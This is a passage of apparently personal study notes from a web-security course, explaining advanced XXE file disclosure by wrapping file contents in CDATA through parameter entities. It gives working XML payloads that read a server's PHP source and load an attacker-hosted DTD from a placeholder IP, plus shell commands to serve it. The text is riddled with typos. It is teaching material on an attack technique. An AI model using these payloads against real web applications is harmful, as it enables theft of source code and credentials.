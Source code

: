 ### Advanced File Disclousure:
Not all XXE vulnerabilities may be straightfoward to exploit, as we have seen in previus section. Some file formates may not be a readeable throgh basic XXE, while in other cases. the web app may no output
any input values in some instances, so we may try to force it through errors.
- Advanced Exfiltratrion with CDATA:
We saw how we could use PHP filters to encode PHP source files, that they would not break the XML format when referenced, whcih prevented us fomr reading these files.
But what about other types of Web Apps? We can utilize another method to extract any kind of data for any web backend.
To output data that does not conform to the XML format, we can to ther XML format, we can wrap the content of the external file reference with CDATA tag [<![CDATA[FILE_CONTENT]]>]. One ez wat to tacles this issue
would be to define a begin internal entity with <![[CDATA. and end internal entity ]]>, and then place ouir external entity file in between and, it shoud be considered as a CDATA element:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that if we reference the &joined; entity contain our escaped data. This will not work, since XML prevent joining internal and external enitties, wo we will have to find berret way to do so.
To Bypass this limitation, we can utilize  XML Paramater Enitities, a special type of entity that starts with % character and can only be used within the DTD. Unique about parameter entities is
that if we reference tham form an external soruce, then all of them would be considered as external and can be joined as follow:
`<!ENTITY joined  "%begin;%file;%end;>`
Let's try to read the submitDetails.php file by first storing the above line in a DTD file, host it our machine, and then reference it as external enitity on the target web app:
`echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd`
`python3 -m http.server 8000`

Now we can reference our external enitity and the print the &joined; entity we defined above, which should contain the content of the submitDetails.php file as:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
Once we write our xxe.dtd file host it our machine, and then add the above lines to our HTTP request to the vulnerable web app, we can finally get the content of the submitDetails.php file:
As we can see we were able to obtain the file source without needing to encode it to base64, which saves a lot of tiime when going thorough varius file to look for secrets and pass.
